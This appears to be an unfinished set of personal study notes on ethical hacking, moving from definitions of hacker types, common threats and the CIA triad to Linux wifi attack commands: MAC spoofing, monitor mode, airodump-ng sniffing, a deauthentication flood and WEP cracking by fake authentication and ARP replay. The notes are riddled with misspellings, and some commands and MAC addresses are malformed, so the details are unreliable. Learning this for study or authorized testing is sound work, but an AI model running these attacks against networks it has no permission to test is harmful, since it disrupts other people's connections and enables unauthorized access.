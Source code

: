 ________ETHICAL HACKING__________
Since it is digital era there are more pople who come into hacing in order to explote or to secur the system
THREE TYPE OF HACKERS
BLACK HAT HACKER:Their main gole ist exploite syste steal data oe etc.
WHITE HAT HACKER:Their main gole is to identify valnubarlaity  in a system and try to make the system more secure
GRAY HAT HACKER: Their main gole is to hack into system just for fun but it it si still not leagle
_____________________________________________MOST COMMAN CYBER THREATS_______________________________________________________________________________________________

1.MALWARE:Malware is intrusive software that is designed to damage and destroy computers and computer systems. Malware is a contraction for “malicious software.” Examples of common malware includes viruses, worms, Trojan viruses, spyware, adware, and ransomware.

2.PHISHING:Phishing is a type of social engineering attack often used to steal user data, including login credentials and credit card numbers. It occurs when an attacker, masquerading as a trusted entity, dupes a victim into opening an email, instant message, or text message.

3.PASSWORD ATTACKS:A password attack is simply when a hacker trys to steal your password. ... Because passwords can only contain so many letters and numbers, passwords are becoming less safe. Hackers know that many passwords are poorly designed, so password attacks will remain a method of attack as long as passwords are being used.

4.DDOS:In computing, a denial-of-service attack is a cyber-attack in which the perpetrator seeks to make a machine or network resource unavailable to its intended users by temporarily or indefinitely disrupting services of a host connected to the Internet.

5.MAN IN MIDDLE:A man in the middle (MITM) attack is a general term for when a perpetrator positions himself in a conversation between a user and an application—either to eavesdrop or to impersonate one of the parties, making it appear as if a normal exchange of information is underway

6.DRIVE BY DOWNLOADS:Drive-by download means two things, each concerning the unintended download of computer software from the Internet: Downloads which a person has authorized but without understanding the consequences

7.MALADVERTISING:Malvertising, or malicious advertising, is the use of online, malicious advertisements to spread malware and compromise systems. Generally this occurs through the injection of unwanted or malicious code into ads.

8.ROGUE SOFTWARE:Rogue software or applications are forms of Internet fraud using computer malware to trick users into revealing financial and social account details or paying for bogus products. As their name suggests, these fraudulent programs go “rogue” on the internet, appearing in simple internet searches and on social networks
_______________________________________________________________________________________________________________________________________________________

Company try to to protect there data from Unauthorised Modification ,Unauthorised Deletion,Unauthorised Acess

ATTACKS ON CIA(CONFIDENTIALITY,INEGRITY,AVAILABLITY)

CONFIDENTIALITY:To keep the data confidential and to get it to the right person it include cracking encripeted data , password prothection,malware/spyware
INEGRITY:Mantaining the the trust throughout the the period of action 
AVAILABLITY : Goin through regular checks and Mantaining the os and removing the software conflicts.Securing the data in case of an accident (fire or damage to server). firewall to protect them.
____________________________________________________________________________________________________________________________________________________

STEPS TO FIX CRIME
1.IDENTIFY the threat that occure in the system and the valnurablity
2.ANYLSE AND EVALUATE 
3.TREAT
__________________________________________________________________________________________________________________________________________________
Vulnerablity ,Threat &Risk

Vulnerablity : it is the place where the system is laging behind and make it more valnurable 
Threat : new threats that are brought like natural threat (foods,fire), unintentional threat threat caused by the workers in organization unintentionally ,intentional threat 
Risk:Damage that caused due to the vulnerablity and threat
#visit threat cloud to look threats that are ocurring 
_____________________________________________________________________________________________________________________________________________________

CRYPTOGRAPHY:Cryptography is a method of protecting information and communications through the use of codes, so that only those for whom the information is intended can read and process it. The prefix "crypt-" means "hidden" or "vault" -- and the suffix "-graphy" stands for "writing."

Peniteration testing it is can you get into a system that is ti may be a physical acess or a virtual acss it can be done by social enginnering or exploiting th system to find out valnurablity





_______________________Network hacking__________________________________________________________________(LINUX)____________________________________________

A)Pre-connection Attacks:

Requirement:Wirless Adapter (It should support monitor mode,Packet injection,AP mode)
            Recommended Chipsets:RealTek RTL8812AU/Atheros AR9271

MAC Address(Media Acess Control):It is a permanent ,physical,unique adress assigned 
                                 by manufacturer.It is used in network to identify the devices and 
                                 send data between the devices.

Why to change MAC Address?: To increase anonymity,impersonate other devices,bypass filter

How to change MAC Address?
                          1.first go to linux terminal do ifconfig(to list all network connected)
                          2.then to disable the wirelees adapter we write (ifconfig wlan0/name of adapter) down
                          3.then to change we write ifconfig wlan0 hw(Hardwear)ether 00:11:22:33:44:55
                            COMMAND:ifconfig wlan0 hw ether 00:11:22:33:44:55
                          4.To enable it COMMAND : ifconfig Wlan0 up

To change Adapter mode to maonitor from managed(To capture packets)
                                                                   1. iwconfig: to list wireless devices
                                                                   2.ifconfig wlan0 down : To disable adapter
                                                                   3.airmon-g check kill: This command will kill all the command that can interfer
                                                                   4.ifconfig wlan0 mode monitor: This command will change mode to monitor
                                                                   5.ifconfig wlan0 up :To enable adapter

Packet Sniffing Using Command (airodump-ng)
>Part of the aircreack-ng suit
>Airodump-ng is a packet sniffer
>used to capture all packet within range

Command:  airodump-ng (name of adapter)

Wifi Band Frequency
>Decide the frequency range that can be used
>Determine channels that can be used
>It should Support the band

Most common Wifi Bands are:
a :Uses 5Ghz frequency
b,g:use 2.4 frequency only
n:uses 5 and 2.4
ac:Lower than 6Ghz

to Scan bands use: airodump-ng  --band a (name of adapter)

Sniffing Targetted packet
COMMAND: airodump-ng --bssid (MAC address of packet you want o sniff) --channel (no) --write name (adapter name)
The above command will write in main directory
the file we need to look is .cap file
the file may be encripted we use wireshark to analyze data


___________Deauthenticaton Attack:Disconnect any client from any network__________________________________________________

>Works on any encrypted network (WEP,WPA and WPA2)
>No need to know network key
>No need to connect to the network

COMMAND: aireplay-ng --deauth(this is name of attak ) 100000(no of packets to send) -a (target mac adres ) -c (client adress) name of adapter
COMMAND : aireplay-ng --deauth 100000 -a 12:32:14:12  -c 11:22:33:44 wlan0
This command will send packet to client router and diconnect the device
ctrl+c to stop command

___________________________________________________________________________________________________________________
B)Gaining Access:

1)  WEP Cracking:
    WEP(Wired Equivalent Privacy) :Old Encription,Uses Algo RC4,Used in some network,EASY
    
>Client encripts data using a key.Each packet encriypted uses a unique key stream
 Random Initilization Vector(IV) is used to generate the keys stream
 The IV  only of 24 bits
 IV+Key(Password) =Key stream

 /IV is to small (24 bits)
 /IV is send in Plain Text
 /IV repetes on busy network
 /Makes it vulnerable for statisticall attack
 /Repeted IVs can be used to determine key stream

>Encripted Packet is send in air
>Router decrypt packet using key

Conclusion: 
To crack WEP we need to :
1.Capture a large number of packets/IVs (We will use airodump-ng)
2.Analyse the captured IVs and crack key (We will use aircrack-ng)

1Step: Command: airodump-ng --bssid 1A:23:43:GF --channel 1 --write (file name) (name of adapter)
2Step :Command: aircreack-ng (name of file.cap)
3Step:We get key like 12:34:56:78 remove colen and that is password

WEP Cracking (When there is very less traffic on the network)
When connecting with a network it might not have enough traffic so we need to associatewith the network to recive more packets.

Open three terminal

1Terminal : airodump-ng -- bssid 12:34:56:78 --channel 3 --write arpreplay mon0

2Termainal : aireplay-ng --fakeauth 0 -a 12:34:56:78 -n (mac adsress) mon0
Here we are associating with target network

This her is Arp Replay Attack
3Terminal: aireplay-ng -arpreplay -b 12:34:56:78 -h 12:34:56:78 mon0

------------------------------------------------------------------------------------------------------------------------------
WPA/WPA2 Cracking
>Both can be cracked using same thing
>Made to address the issue in WEP
>Much more secure
>Each packet is encrypted using a unique key
-Packet contain no useful info
















C)Post-connection Attacks:




















